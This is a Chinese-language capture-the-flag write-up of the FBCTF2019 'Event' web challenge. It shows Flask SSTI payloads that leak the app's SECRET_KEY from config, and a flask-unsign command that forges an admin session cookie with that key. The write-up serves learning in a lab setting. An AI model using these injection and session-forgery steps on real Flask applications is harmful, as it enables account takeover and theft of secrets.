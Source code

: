 # \[FBCTF2019]Event

## \[FBCTF2019]Event

## 考点

* Flask SSTI
* Flask SSTI 获取config
* Flask session伪造
* `flask-unsign`使用

## wp

提示登录注册，随便输然后看到是添加event的功能。先看看cookie吧

```
user=ImFhYWEi.YmPu9w.Q1_mTk2jF7Ix0tBOaceSswpZkgI
events_sesh_cookie=.eJwlzjsOwjAMANC7eO4QO4nj9DJV_BOsLZ0QdweJAzzpveHIM64H7K_zjg2Op8MOGa3qwsGijWYJlOYebJaiIhmGM6L1VOzabM5A81aIZ8rKxWsqFbHBo9ROyhxUuw4fiG6azI2qy8_VwoREZDYHUWXM0hVHgQ3uK85_BuHzBcvqLoU.YmPu9w.dH8qRtgy6eTettBjwAKpWX09AvI
```

`user`不知道是什么加密，用`flask-unsign`只得到了`aaaa`，这是我的登录名

![](<../../.gitbook/assets/image (3) (1).png>)

`events_sesh_cookie`使用`flask-unsign`看到内容如下

```
{'_fresh': True, '_id': 'fe43ba1768b4290e184dde6ccf8b88fec19ee45fb15b4c99e1cd40269f8afa6a9b208c7670352b66e235b7d711dcbf66423d8c9930621222cc9722361f05b170', 'user_id': '1'}
```

三个输入都可控，三个位置都试试SSTI，fuzz了一下发现`__init__,__class__,__dict__`有回显

![](<../../.gitbook/assets/image (10) (1).png>)

`__class__.__mro__[3].__subclasses__()`提示302，使用`__class__.__init__.__globals__['app']`不行，再用`__class__.__init__.__globals__[app]`也不行，不知道是不是过滤了关键字，

考虑从config信息中获取secret\_key，然后进行session伪造，使用`__class__.__init__.__globals__[app].config`获取`config`信息

```
'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'
```

`__class__.__init__.__globals__[app].__dict__`可以获取更多flask app的信息

再用flask-unsign加密`flask-unsign.exe --secret "fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y" --sign --cookie "admin"`

![](<../../.gitbook/assets/image (27).png>)

得到`ImFkbWluIg.YmP6Ag.7E8dA-A3bqO-TSTpfx76Qo7wdDo`

修改cookie中的user字段即可。
